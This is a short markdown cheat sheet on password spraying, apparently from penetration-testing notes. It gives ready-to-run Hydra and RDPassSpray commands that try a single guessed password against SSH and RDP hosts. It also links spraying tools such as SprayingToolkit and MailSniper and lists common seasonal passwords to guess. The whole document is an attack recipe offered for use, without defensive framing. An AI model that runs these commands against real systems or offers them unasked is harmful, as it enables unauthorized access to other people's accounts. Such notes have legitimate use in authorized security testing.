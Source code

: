 # Password Spraying

## Hydra
```
hydra -L usernames.txt -p Sprint2022 ssh://10.10.10.10
```

## RDPassSpray for RDP
[RDPassSpray Github](https://github.com/xFreed0m/RDPassSpray)

```
python3 RDPassSpray.py -u victim -p Spring2021! -t 10.100.10.240:3026
```

## SprayingToolkit
[SprayingToolkit Github](https://github.com/byt3bl33d3r/SprayingToolkit)

## MailSniper
[MailSniper Github](https://github.com/dafthack/MailSniper)

## Possible Passwords for Guessing
```
password
Password1
Passw0rd
Welcome1
AutumnYY
SpringYY
SummerYY
WinterYY
```